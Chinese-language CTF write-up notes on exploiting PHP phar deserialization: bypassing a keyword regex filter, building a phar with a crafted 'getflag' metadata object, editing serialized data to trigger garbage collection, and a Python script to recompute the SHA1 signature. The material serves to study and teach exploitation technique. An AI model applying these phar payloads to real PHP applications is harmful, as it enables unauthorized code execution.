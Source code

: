 > a:1:{i:0;O:7:"getflag":0:{}}
> a:1:{i:0;O:7:"getflag":0:{};i:0;N;}

其他思路
* file_put_contents 数组绕过
* 可以抛弃的签名

```php
<?php

$a = [
    0 => 2,
    1 => 'getflag'
]

if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $data)) {
    die('我知道你想干吗，我的建议是不要那样做');
}

file_put_contents("aaa", $a);
```

绕 throw https://irq5.io/2019/01/07/35c3-ctf-write-up-php/
## 脚本0 -- 重新生成签名

1.生成phar文件 
```php
<?php
class getflag{
}
$o = new getflag();
$phar = new Phar("app.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>");
$phar -> setMetadata([0 =>$o, 1=> 9]); // 随便一个值，一会儿修改
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
```
2.修改一下 app.phar中的内容
```
a:2:{i:0;O:7:"getflag":0:{}i:1;i:9;}  =>
a:2:{i:0;O:7:"getflag":0:{}i:0;i:9;}  // 取消掉引用getflag, 于是它马上gc实现垃圾回收, 不用到throw
```
3.重新生成phar签名, -8的位置是02所以是sha1签名
```python
import shutil
import tarfile
import os.path
import gzip
import requests


def resign(src, dst):
    from hashlib import sha1

    f = open(src, 'rb').read()
    s = f[:-28]
    e = f[-8:]

    sign = sha1(s).digest()

    b = s + sign + e
    open(dst, 'wb').write(b)



```